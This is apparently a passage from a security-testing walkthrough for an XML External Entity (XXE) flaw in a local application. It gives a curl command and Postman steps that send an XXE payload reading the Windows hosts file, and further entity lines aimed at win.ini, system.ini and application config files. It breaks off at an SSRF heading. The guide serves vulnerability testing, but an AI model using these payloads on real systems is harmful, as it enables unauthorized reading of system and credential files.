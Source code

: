 ```

⚠️  SECURITY RISK: This application is vulnerable to CVE-2023-45612
```

---

## Step 4: Manual Testing (Alternative)

### 4.1 Using curl

```bash
curl -X POST http://localhost:8080/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE UserData [
<!ELEMENT UserData ANY>
<!ELEMENT name ANY>
<!ELEMENT email ANY>
<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<UserData>
    <name>&xxe;</name>
    <email>test@example.com</email>
</UserData>'
```

### 4.2 Using Postman

1. Create a new POST request to `http://localhost:8080/xml`
2. Set Content-Type header to `application/xml`
3. Set the request body to the XXE payload above
4. Send the request
5. Check if the response contains file contents

---

## Step 5: Verify Impact

### 5.1 Test Different Files

Try reading other sensitive files:

```xml
<!-- Windows system files -->
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY xxe SYSTEM "file:///C:/Windows/system.ini">

<!-- Application files -->
<!ENTITY xxe SYSTEM "file:///C:/path/to/application.properties">
```

### 5.2 Test SSRF
